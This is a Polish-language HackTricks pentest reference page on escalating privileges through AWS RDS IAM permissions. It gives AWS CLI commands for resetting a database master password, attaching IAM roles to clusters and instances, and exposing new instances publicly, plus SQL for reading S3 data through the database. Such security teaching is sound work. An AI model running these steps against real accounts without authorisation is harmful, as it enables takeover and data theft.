 # AWS - Eskalacja uprawnień w usłudze RDS

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDS - Usługa bazy danych relacyjnych

Aby uzyskać więcej informacji na temat RDS, sprawdź:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Z tym uprawnieniem atakujący może **zmienić hasło użytkownika głównego** oraz logowanie do bazy danych:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Będziesz musiał być w stanie **skontaktować się z bazą danych** (zazwyczaj są one dostępne tylko z wewnątrz sieci).
{% endhint %}

**Potencjalne zagrożenie:** Znalezienie wrażliwych informacji w bazach danych.

### rds-db:connect

Zgodnie z [**dokumentacją**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), użytkownik posiadający to uprawnienie może połączyć się z instancją bazy danych.

### Wykorzystanie uprawnień roli RDS IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Jeśli wykonasz **`SELECT datname FROM pg_database;`** i znajdziesz bazę danych o nazwie **`rdsadmin`**, będziesz wiedział, że jesteś wewnątrz bazy danych **AWS postgresql**.
{% endhint %}

Najpierw możesz sprawdzić, czy ta baza danych została użyta do uzyskania dostępu do innej usługi AWS. Możesz to sprawdzić, analizując zainstalowane rozszerzenia:
```sql
SELECT * FROM pg_extension;
```
Jeśli znajdziesz coś takiego jak **`aws_s3`**, możesz przypuszczać, że ta baza danych ma **pewien rodzaj dostępu do S3** (istnieją również inne rozszerzenia, takie jak **`aws_ml`** i **`aws_lambda`**).

Dodatkowo, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz sprawdzić, czy **klaster ma przypisaną jakąś rolę IAM** w polu **`AssociatedRoles`**. Jeśli tak, możesz przypuszczać, że baza danych została **przygotowana do dostępu do innych usług AWS**. Na podstawie **nazwy roli** (lub jeśli możesz uzyskać **uprawnienia** roli), możesz **zgadywać**, jakie dodatkowe uprawnienia ma baza danych.

Teraz, aby **odczytać plik wewnątrz kubełka**, musisz znać pełną ścieżkę. Możesz to odczytać za pomocą:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Jeśli masz **surowe poświadczenia AWS**, możesz ich również użyć do uzyskania dostępu do danych S3 za pomocą:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **nie musi zmieniać żadnej zmiennej grupy parametrów**, aby móc uzyskać dostęp do S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wewnątrz mysql, jeśli wykonasz zapytanie **`SELECT User, Host FROM mysql.user;`** i istnieje użytkownik o nazwie **`rdsadmin`**, możesz przypuszczać, że znajdujesz się w **AWS RDS mysql db**.
{% endhint %}

Wewnątrz mysql wykonaj **`show variables;`** i jeśli zmienne takie jak **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** mają wartości, możesz przypuszczać, że baza danych jest przygotowana do dostępu do danych S3.

Dodatkowo, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz sprawdzić, czy klastr ma jakąś **powiązaną rolę**, co zazwyczaj oznacza dostęp do usług AWS).

Teraz, aby **odczytać plik wewnątrz kubełka**, musisz znać pełną ścieżkę. Możesz to odczytać za pomocą:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Atakujący posiadający uprawnienia `rds:AddRoleToDBCluster` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to umożliwić atakującemu **dostęp do wrażliwych danych** lub modyfikację danych wewnątrz instancji.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencjalne skutki**: Dostęp do poufnych danych lub nieautoryzowane modyfikacje danych w instancji RDS.\
Należy zauważyć, że niektóre bazy danych wymagają dodatkowych konfiguracji, takich jak Mysql, który musi określić ARN roli w grupach parametrów.

### `rds:CreateDBInstance`

Tylko z tym uprawnieniem atakujący mógłby utworzyć **nową instancję wewnątrz istniejącego klastra**, który ma przypisaną **rolę IAM**. Nie będzie mógł zmienić hasła głównego użytkownika, ale może być w stanie wystawić nową instancję bazy danych do internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Atakujący posiadający uprawnienia `rds:CreateDBInstance` i `iam:PassRole` może **utworzyć nową instancję RDS z przypisaną określoną rolą**. Atakujący może następnie potencjalnie **uzyskać dostęp do wrażliwych danych** lub modyfikować dane wewnątrz instancji.

{% hint style="warning" %}
Niektóre wymagania dotyczące roli/profilu instancji do przypisania (z [**tutaj**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil musi istnieć w Twoim koncie.
* Profil musi mieć rolę IAM, którą Amazon EC2 ma uprawnienia do przejęcia.
* Nazwa profilu instancji i powiązana nazwa roli IAM muszą zaczynać się od prefiksu `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencjalne skutki**: Dostęp do poufnych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Atakujący posiadający uprawnienia `rds:AddRoleToDBInstance` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to umożliwić atakującemu **dostęp do poufnych danych** lub modyfikację danych wewnątrz instancji.

{% hint style="warning" %}
Instancja bazy danych musi znajdować się poza klastrami.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencjalne skutki**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
